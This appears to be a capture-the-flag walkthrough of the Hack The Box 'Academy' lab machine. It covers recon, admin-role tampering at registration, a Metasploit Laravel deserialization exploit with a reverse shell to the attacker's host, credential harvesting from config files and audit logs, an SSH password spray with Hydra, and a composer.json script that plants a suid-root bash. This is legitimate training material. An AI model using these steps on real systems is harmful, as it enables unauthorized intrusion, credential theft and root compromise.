


Academy (Linux easy)#
Academy is a straightforward machine from egre55 and mrb3n. We'll be covering web app exploitation, web framewok vulnerabilities, unforseen side-effects leading to credential exposure, and priviledge abuse in our path from remote to user to root.
Reconnaissance#
After adding 10.10.10.215 academy.htb to /etc/hosts, I performed my standard recon for open
ports on the machine: nmap -sS -sV -Pn -v -p- -sC -oA academy academy.htb:
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-12 20:06 UTC
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:06
Completed NSE at 20:06, 0.00s elapsed
Initiating NSE at 20:06
Completed NSE at 20:06, 0.00s elapsed
Initiating NSE at 20:06
Completed NSE at 20:06, 0.00s elapsed
Initiating SYN Stealth Scan at 20:06
Scanning academy.htb (10.10.10.215) [65535 ports]
Discovered open port 80/tcp on 10.10.10.215
Discovered open port 22/tcp on 10.10.10.215
Discovered open port 33060/tcp on 10.10.10.215
Completed SYN Stealth Scan at 20:07, 31.11s elapsed (65535 total ports)
Initiating Service scan at 20:07
Scanning 3 services on academy.htb (10.10.10.215)
Completed Service scan at 20:07, 23.39s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.10.215.
Initiating NSE at 20:07
Completed NSE at 20:07, 1.38s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.17s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Nmap scan report for academy.htb (10.10.10.215)
Host is up (0.045s latency).
Not shown: 65532 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
| 256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_ 256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Hack The Box Academy
33060/tcp open mysqlx?
| fingerprint-strings:
| DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
| Invalid message"
|_ HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.91%I=7%D=1/12%Time=5FFE0173%P=x86_64-pc-linux-gnu%r(N
SF:ULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOp
SF:tions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVers
SF:ionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2
SF:B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fI
SF:nvalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")
SF:%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01
SF:\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie
SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"
SF:\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\
SF:x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY0
SF:00")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOptions
SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NCP,9,"
SF:\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x05\x1
SF:a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000
SF:")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x05\0\0
SF:\0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r
SF:(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
NSE: Script Post-scanning.
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.52 seconds
Raw packets sent: 65647 (2.888MB) | Rcvd: 65535 (2.621MB)
We see 3 open ports, 22, 80, and 33060. Opening port 80 in Firefox gives us the
following screen:
There's a Login page:

and a Registration page:
Let's see what other pages are on the machine. My preferred tool for this is gobuster:
gobuster dir --url=http://academy.htb -w /usr/share/wordlists/dirb/big.txt -x php,txt,Z,gz,zip
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://academy.htb
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirb/big.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Extensions: php,txt,Z,gz,zip
[+] Timeout: 10s
===============================================================
2021/01/12 20:13:50 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.Z (Status: 403)
/.htaccess.gz (Status: 403)
/.htaccess.zip (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.Z (Status: 403)
/.htpasswd.gz (Status: 403)
/.htpasswd.zip (Status: 403)
/admin.php (Status: 200)
/config.php (Status: 200)
/home.php (Status: 302)
/images (Status: 301)
/index.php (Status: 200)
/login.php (Status: 200)
/register.php (Status: 200)
/server-status (Status: 403)
===============================================================
2021/01/12 20:22:24 Finished
===============================================================
So in addition to login.php and and register.php, there is an Admin page at admin.php, a
configuration file at config.php, and a home.php that we're not authorized to see.
Configuring the browser to send traffic through [ZAP](https://www.zaproxy.org) and submitting
a registration allows us to log in:

ZAP shows us the POST data sent to the web server.
The fields look like what we filled out in the Registration page, with one addition: roleid=0.
We may be able to create an 'administrator' account if we set roleid=1. Sending the POST
data to ZAP's Request Editor allows us to edit roleid=1 and re-submit the post.
We receive a 200 response code, which (hopefully) means the registration is successful. Attempting
to log in with our newly created account on admin.php takes us to this page:
Bingo! We've discovered a couple of new accounts: cry0l1t3 and mrb3n, as well as a virtual host
we didn't know about before. Adding it to the entry for academy in /etc/hosts and visiting it
in the browser yields a treasure trove of information (click for high resolution picture):
Scrolling the bottom right pane, we see even more data:
From this screen, we can discern a lot of information about the web server and what it's running:
- The web framework appears to be Laravel, a PHP web framework.
- The web server is Apache version
2.4.41, and running on an Ubuntu OS. - MySQL is running on the server, listening on port
3306, and we see some possible credentials:homestead:secret. This may be the service listening on port33060as well. - There are refernces to a Redis server on the host.
- The web application is installed in
/var/www/html/htb-academy-dev-01. - We have part of the Laravel framework configuration exposed: the APP_KEY:
base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
Foothold#
The Laravel framework presents a good place to start looking for potential vulnerabilities.
searching Exploit DB for laravel yields a few interesting results:
The Metasploit vulnerability looks promising: it's relatively recent and has been
verified. Firing up msfconsole and looking at the module info shows we need the
remote host (RHOST), the virtual server name (VHOST), and the APP_KEY we found
in the dump above. Let's give the module a try:
msf6 > use exploit/unix/http/laravel_token_unserialize_exec
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set LHOST tun0
LHOST => tun0
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set RHOSTS 10.10.10.215
RHOSTS => 10.10.10.215
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set VHOST dev-staging-01.academy.htb
VHOST => dev-staging-01.academy.htb
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_KEY => dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
msf6 exploit(unix/http/laravel_token_unserialize_exec) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/http/laravel_token_unserialize_exec) >
[*] Started reverse TCP handler on 10.10.14.251:4444
[*] Command shell session 1 opened (10.10.14.251:4444 -> 10.10.10.215:41432) at 2021-01-13 19:30:11 +0000
And there we have a session created. Let's upgrade it to a meterpreter session for more flexibility:
msf6 exploit(unix/http/laravel_token_unserialize_exec) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/shell_to_meterpreter) > run
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.251:4433
[*] Sending stage (976712 bytes) to 10.10.10.215
[*] Meterpreter session 2 opened (10.10.14.251:4433 -> 10.10.10.215:46886) at 2021-01-13 19:34:15 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) >
[*] Stopping exploit/multi/handler
msf6 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...
meterpreter >
meterpreter > getuid
sServer username: www-data @ academy (uid=33, gid=33, euid=33, egid=33)
meterpreter > sysinfo
Computer : 10.10.10.215
OS : Ubuntu 20.04 (Linux 5.4.0-52-generic)
Architecture : x64
BuildTuple : i486-linux-musl
Meterpreter : x86/linux
meterpreter >
And there we have our foothold, a meterpreter session on the host, running as
www-admin. We can grab the passwd file for information on other accounts to target:
meterpreter > cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0blin:x:1005:1005::/home/g0blin:/bin/sh
egre55, cry0l1t3, and mrb3n we knew about, the last 3 are new.
Let's go poke around in the web root. The Metasploit module we used mentions a .env file
that Laravel uses to configure various settings, there may be others worth looking at.
meterpreter > cd /var/www/html
meterpreter > ls
Listing: /var/www/html
======================
Mode Size Type Last modified Name
---- ---- ---- ------------- ----
40755/rwxr-xr-x 4096 dir 2021-01-13 19:25:26 +0000 academy
40755/rwxr-xr-x 4096 dir 2020-08-13 12:40:29 +0000 htb-academy-dev-01
100644/rw-r--r-- 50 fil 2020-08-09 15:49:40 +0000 index.php
meterpreter > cd academy
meterpreter > ls
Listing: /var/www/html/academy
==============================
Mode Size Type Last modified Name
---- ---- ---- ------------- ----
100644/rw-r--r-- 706 fil 2020-08-13 12:42:01 +0000 .env
100644/rw-r--r-- 651 fil 2020-08-09 15:49:40 +0000 .env.example
100644/rw-r--r-- 111 fil 2020-08-09 15:49:40 +0000 .gitattributes
100644/rw-r--r-- 155 fil 2020-08-09 15:49:40 +0000 .gitignore
40755/rwxr-xr-x 4096 dir 2020-08-09 15:49:40 +0000 app
100755/rwxr-xr-x 1686 fil 2020-08-09 15:49:40 +0000 artisan
40755/rwxr-xr-x 4096 dir 2020-08-09 15:49:40 +0000 bootstrap
100644/rw-r--r-- 1512 fil 2020-08-09 15:49:40 +0000 composer.json
100644/rw-r--r-- 191621 fil 2020-08-09 15:49:40 +0000 composer.lock
40755/rwxr-xr-x 4096 dir 2020-08-09 15:49:40 +0000 config
40755/rwxr-xr-x 4096 dir 2020-08-09 15:49:40 +0000 database
100644/rw-r--r-- 2956188 fil 2021-01-13 19:26:47 +0000 hehe
100644/rw-r--r-- 1150 fil 2020-08-09 15:49:40 +0000 package.json
100644/rw-r--r-- 1040 fil 2020-08-09 15:49:40 +0000 phpunit.xml
40755/rwxr-xr-x 4096 dir 2021-01-13 17:21:07 +0000 public
100644/rw-r--r-- 3622 fil 2020-08-09 15:49:40 +0000 readme.md
40755/rwxr-xr-x 4096 dir 2020-08-09 15:49:40 +0000 resources
40755/rwxr-xr-x 4096 dir 2020-08-09 15:49:40 +0000 routes
100644/rw-r--r-- 563 fil 2020-08-09 15:49:40 +0000 server.php
40755/rwxr-xr-x 4096 dir 2020-08-09 15:49:40 +0000 storage
40755/rwxr-xr-x 4096 dir 2020-08-09 15:49:40 +0000 tests
40755/rwxr-xr-x 4096 dir 2020-08-09 15:49:40 +0000 vendor
100644/rw-r--r-- 549 fil 2020-08-09 15:49:40 +0000 webpack.mix.js
meterpreter > cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost
LOG_CHANNEL=stack
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
SESSION_LIFETIME=120
QUEUE_DRIVER=sync
REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379
MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null
PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1
MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
That's a new password: mySup3rP4s5w0rd!!. Also, when we did our gobuster dir of the main
academy.htb website, we saw the file config.php. We should go see what is in that as well:
meterpreter > cd public
meterpreter > ls
Listing: /var/www/html/academy/public
=====================================
Mode Size Type Last modified Name
---- ---- ---- ------------- ----
40755/rwxr-xr-x 4096 dir 2020-11-05 12:23:01 +0000 Modules_files
100644/rw-r--r-- 1600 fil 2020-08-11 00:55:16 +0000 admin-page.php
100644/rw-r--r-- 3247 fil 2020-08-12 21:28:32 +0000 admin.php
100644/rw-r--r-- 174 fil 2020-08-09 16:55:09 +0000 config.php
100644/rw-r--r-- 55036 fil 2020-11-09 10:13:59 +0000 home.php
40755/rwxr-xr-x 4096 dir 2020-09-14 22:38:21 +0000 images
100644/rw-r--r-- 2117 fil 2020-09-14 22:40:07 +0000 index.php
100644/rw-r--r-- 3185 fil 2020-08-12 21:28:52 +0000 login.php
100644/rw-r--r-- 4304 fil 2020-11-05 12:51:00 +0000 register.php
100644/rw-r--r-- 5494 fil 2021-01-13 17:21:07 +0000 shell.php
100644/rw-r--r-- 685 fil 2020-11-05 12:51:19 +0000 success-page.php
meterpreter > cat config.php
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
$link=mysqli_connect('localhost','root','GkEWXn4h34g8qx9fZ1','academy');
?>
Another possible password: GkEWXn4h34g8qx9fZ1.
User#
It's a well-used adage in Security that people are lazy. If they can get away with it, they'll
re-use passwords EVERYWHERE. Now that we have a few usernames and some possible passwords,
we should try using a tool to brute-force combinations and see if we get any hits. My personal
favorite for testing passwords against an SSH server is THC Hydra. We create a list of users:
jra@kali:~/htb/Machines/Academy$ cat users.txt
egre55
mrb3n
cry0l1t3
root
21y4d
ch4p
g0blin
And passwords:
jra@kali:~/htb/Machines/Academy$ cat passwords.txt
mySup3rP4s5w0rd!!
secret
GkEWXn4h34g8qx9fZ1
We can feed these files to hydra to check for hits. A couple of comments on the flags to hydra: -t 4 sets the number of concurrent threads to be 4. Some services will throttle or ban too
many attempts at a time. The -e flag adds some additional checks:
s - try the login as password
n - try an empty password
r - reverse the login and try it as password
jra@kali:~/htb/Machines/Academy$ hydra -L users.txt -P passwords.txt -t 4 -e snr ssh://academy.htb
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-13 20:15:02
[DATA] max 4 tasks per 1 server, overall 4 tasks, 42 login tries (l:7/p:6), ~11 tries per task
[DATA] attacking ssh://academy.htb:22/
[22][ssh] host: academy.htb login: cry0l1t3 password: mySup3rP4s5w0rd!!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-13 20:15:33
We can log in to academy as cry0l1t3 and get the User flag:
jra@kali:~/htb/Machines/Academy$ ssh cry0l1t3@academy.htb
cry0l1t3@academy.htb's password:
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-52-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
System information disabled due to load higher than 2.0
0 updates can be installed immediately.
0 of these updates are security updates.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
Last login: Wed Jan 13 19:29:30 2021 from 10.10.14.106
$ ls
user.txt
$ cat user.txt
569bd4717e889c4ba19266c3790ac81e
(Your flag may be different, as the flags change over time)
Root#
Now we have a shell as a regular user on the box. We can try a couple of obvious paths to root:
$ sudo -l
[sudo] password for cry0l1t3:
Sorry, user cry0l1t3 may not run sudo on academy.
$ su -
Password:
su: Authentication failure
$ cat /root/root.txt
cat: /root/root.txt: Permission denied
But we get bupkis. Uploading and running linPEAS does give us something interesting to take a look at:
We're a member of group adm, which isn't a common thing for normal users. Members of the 'adm'
group have read access into the logs in /var/log. From the linPEAS output, we see that there
are some files in /var/log that look like they might contain interesting information:
These are output from auditd, an overview of which is
linked here. From the auditd man page:
auditdis the userspace component to the Linux Auditing System. It's responsible for writing audit records to the disk. Viewing the logs is done with theausearchoraureportutilities.
Using the ausearch tool, we can dump the audit logs and search for interesting things. I found
it easiest to run ausearch -i -if /path/to/audit/file and then use grep to look for interesting
things. -i tells ausearch to 'interpret' the data in the logs, such as converting numeric UIDs
to usernames. -if /path/name specifies the path of file to read. Starting at the oldest file
and working forwards, running ausearch -i -if /var/log/audit/audit.log.3 | grep cry0l1t3 | less,
we can find an interesting set of lines:
type=TTY msg=audit(08/12/2020 02:28:10.086:83) : tty pid=2517 uid=cry0l1t3 auid=root ses=1 major=4 minor=1 comm=sh data="su mrb3n",<nl>
type=TTY msg=audit(08/12/2020 02:28:13.906:84) : tty pid=2520 uid=cry0l1t3 auid=root ses=1 major=4 minor=1 comm=su data="mrb3n_Ac@d3my!",<nl>
Verifying the password works, we now have a shell as mrb3n, and mrb3n can run the command
/usr/bin/composer as root:
cry0l1t3@academy:~$ su - mrb3n
Password:
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
$ sudo -l
[sudo] password for mrb3n:
Matching Defaults entries for mrb3n on academy:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User mrb3n may run the following commands on academy:
(ALL) /usr/bin/composer
Composer is a dependency manager for PHP modules. In-depth
documentation is available on the Composer website. Composer is controlled via a
config file named composer.json, and the feature we're interested in is the ability
to define arbitrary scripts that
can be excuted from the composer command line. We can get very complex with our
scripts, or go simple. This composer.json creates a suid-root copy of /bin/bash
in the directory /tmp/.pug:
{
"name": "pugpug/pugpug",
"description": "Pugpug Hacks.",
"license": "MIT",
"type": "project",
"scripts": {
"pugpug": [
"mkdir -p /tmp/.pug ; cp /bin/bash /tmp/.pug/bash ; chmod 4755 /tmp/.pug/bash"
]
}
}
Running sudo composer run-script pugpug will execute the script as root, and we're left
with a suid-root copy of bash in /tmp/.pug:
mrb3n@academy:/tmp/.pug$ cat composer.json
{
"name": "pugpug/pugpug",
"description": "Pugpug Hacks.",
"license": "MIT",
"type": "project",
"scripts": {
"pugpug": [
"mkdir -p /tmp/.pug ; cp /bin/bash /tmp/.pug/bash ; chmod 4755 /tmp/.pug/bash"
]
}
}
mrb3n@academy:/tmp/.pug$ sudo composer run-script pugpug
[sudo] password for mrb3n:
PHP Warning: PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning: PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> mkdir -p /tmp/.pug ; cp /bin/bash /tmp/.pug/bash ; chmod 4755 /tmp/.pug/bash
mrb3n@academy:/tmp/.pug$ ls -l
total 1160
-rwsr-xr-x 1 root root 1183448 Jan 14 00:01 bash
-rw-r--r-- 1 mrb3n mrb3n 258 Jan 14 00:00 composer.json
(Note the warning about not running Composer as root)
We can run our malicious copy of bash with /tmp/.pug/bash -p, and get a root shell:
mrb3n@academy:/tmp/.pug$ /tmp/.pug/bash -p
bash-5.0# id
uid=1001(mrb3n) gid=1001(mrb3n) euid=0(root) groups=1001(mrb3n)
bash-5.0# cat /root/root.txt
00d08ac7120264dfc58d360503211699
And that's the Root flag.
Final thoughts#
This was a fun box. I'm always impressed with egre55's machines, they're well developed and have plausible holes and exploits. I can see how in the 'real world' these types of configurations are possible, and how unintended side-effects can lead to greater compromise.
-- pugpug